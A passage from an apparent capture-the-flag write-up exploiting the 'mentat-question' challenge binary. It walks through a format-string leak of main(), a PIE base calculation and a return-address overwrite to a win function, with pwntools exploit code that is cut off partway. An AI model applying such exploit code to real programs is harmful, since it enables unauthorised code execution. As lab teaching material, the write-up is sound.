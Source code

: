 Now that we have the offset of RIP, we can now use the format string vulnerability to essentially read the stack. I initially tried just sending a string of many "%p", but it actually ended up overriding RIP on the stack, which triggered a SIGSEV. So that didn't work.  

Instead, we can perform an arbitrary read, which will allow us to read the memory of a certain offset on the stack. Through a bit of testing, I was able to figure out that the offset we needed was equal to `ret - 2`:  

```py
res = send_payload(b'Yes%' + str(ret-2).encode() + b'$p').decode('ascii')
res = res.split('0x')[-1].split(' ')[0]
main = int(res, 16)
```

The way I confirmed was simply by running `print 'main'` in GDB every time after the Python script finished execution, which told me the address of main() for that current run. I kept on changing the +/- offset on ret until I got the address of main().  

Now that we have the address of main(), we can simply calculate the PIE offset and thus the address of secret() as follows:  

```py
PIE = main - elf.symbols['main']
winaddr = PIE + elf.symbols['secret']
```

Finally, we can override RIP and return to secret to pop a shell!  

```py
send_payload(b'Yes' + b'A'*(ret) + pack.p64(winaddr + 1))
```

Now we can change the target to the remote service, run the script, do "cat flag.txt", and get the flag!  

Here's the full script:  

```py
from pwn import *
import pwnlib.util.packing as pack

elf = ELF("./mentat-question")
context.binary = elf
context.log_level = "DEBUG"
context(terminal=["tmux","split-window", "-h"])

# p = process('./mentat-question')
# gdb.attach(p)

p = remote('challs.umdctf.io', 32300)

p.recvuntil(b'?\n')
p.sendline(b'Division')

def send_payload(b):
    p.recvuntil(b'?\n')
    p.send(b'\n\n\n')
    p.sendlineafter(b'?\n', b)
    return p.recvline()

# NOTE: find return address
# send_payload(b'Yes' + cyclic(1024))

ret = cyclic_find('aaagaaah')

# NOTE: get main address
res = send_payload(b'Yes%' + str(ret-2).encode() + b'$p').decode('ascii')
res = res.split('0x')[-1].split(' ')[0]
main = int(res, 16)
```